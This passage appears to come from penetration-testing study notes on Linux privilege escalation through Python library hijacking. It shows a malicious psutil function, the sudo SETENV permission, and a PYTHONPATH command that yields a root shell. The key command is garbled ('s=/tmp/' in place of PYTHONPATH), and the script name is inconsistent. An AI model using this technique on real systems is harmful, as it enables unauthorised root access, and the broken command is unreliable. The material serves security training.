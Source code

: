 ```sh
pip3 show psutil #misconfigure lib psutil
```

- Exploit:
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

**PYTHONPATH Environment Variable**

In the previous section, we touched upon the term `PYTHONPATH`, however, didn't fully explain it's use and importance regarding the functionality of Python. `PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import. This is important as if a user is allowed to manipulate and set this variable while running the python binary, they can effectively redirect Python's search functionality to a `user-defined` location when it comes time to import modules. We can see if we have the permissions to set environment variables for the python binary by checking our `sudo` permissions:

- Checking sudo permissions

```sh
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

As we can see from the example, we are allowed to run `/usr/bin/python3` under the trusted permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV:` flag being set. It is important to note, that due to the trusted nature of `sudo`, any environment variables defined prior to calling the binary are not subject to any restrictions regarding being able to set environment variables on the system. This means that using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program. Let's try to do so now using the `psutil.py` script from the last section.

 - Privilege Escalation using PYTHONPATH Environment Variable

```sh
s=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

In this example, we moved the previous python script from the `/usr/lib/python3.8` directory to `/tmp`. From here we once again call `/usr/bin/python3` to run `mem_stats.py`, however, we specify that the `PYTHONPATH` variable contain the `/tmp` directory so that it forces Python to search that directory looking for the `psutil` module to import. As we can see, we once again have successfully run our script under the context of root.

- Other way to privesc:
```sh
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```
### Resources

- Tools : 
  **https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh**



